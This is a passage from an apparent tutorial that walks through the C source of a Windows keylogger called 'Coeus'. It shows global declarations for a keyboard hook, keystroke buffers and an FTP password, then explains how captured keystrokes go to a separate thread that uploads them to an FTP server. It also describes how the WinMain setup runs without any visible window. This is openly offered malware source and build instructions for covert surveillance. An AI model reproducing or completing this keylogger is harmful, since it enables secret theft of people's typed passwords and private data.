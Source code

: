 ```c
#define FTP_PASSWORD "mySup3rSecr3tPassw0rd"
#define FTP_LOG_PATH "Coeus_Log.txt"

#define MAX_LOG_SIZE 4096
#define BUF_SIZ 1024
#define BUF_LEN 1
#define MAX_VALUE_NAME 16383

#define ONE_SECOND 1000
#define ONE_MINUTE ONE_SECOND * 60
#define TIMEOUT ONE_MINUTE * 1 // minutes

// global handle to hook
HHOOK ghHook = NULL;
// global handle to mutex
HANDLE ghMutex = NULL;

// global handle to log heap
HANDLE ghLogHeap = NULL;
// global string pointer to log buffer
LPSTR lpLogBuf = NULL;
// current max size of log buffer
DWORD dwLogBufSize = 0;

// global handle to temporary buffer heap
HANDLE ghTempHeap = NULL;
// global handle to temporary buffer
LPSTR lpTempBuf = NULL;

// multithreading objects
HANDLE hTempBufHasData = NULL;
HANDLE hTempBufNoData = NULL;
```

Global variables aren’t really a _nice_ method of doing things however, for the sake of simplicity of using variables across multiple threads, this was one of the options I chose. Most of these variables are just handles to the two buffers which are used with the multithreading, for example, `lpLogBuf` is the pointer to the buffer which contains the keystrokes and `lpTempBuf` is the pointer to the buffer which contains the data to be uploaded to the FTP server. The two multithreading objects `hTempBufHasData` and `hTempBufNoData` are used to signal whether the temporary buffer (upload buffer) has or has no data to upload, respectively.

1. Create mutex to prevent more than one instance
2. Create two buffers, one to hold the keystrokes, one to upload the keystrokes
3. Initialize two events for the two buffers with multithreading
4. Start a thread to upload the keystrokes
5. Create the keyboard hook
6. Enter message loop to process keystrokes

Here is the code for the main function. We declare it with `WinMain` for a Windows GUI application which shows no window since there is no actual GUI code nor does it show a console since it is not a console application. In this function, we are needed to set up all the variables and other objects for the program to work, then simply enter an infinite loop to capture keystrokes.

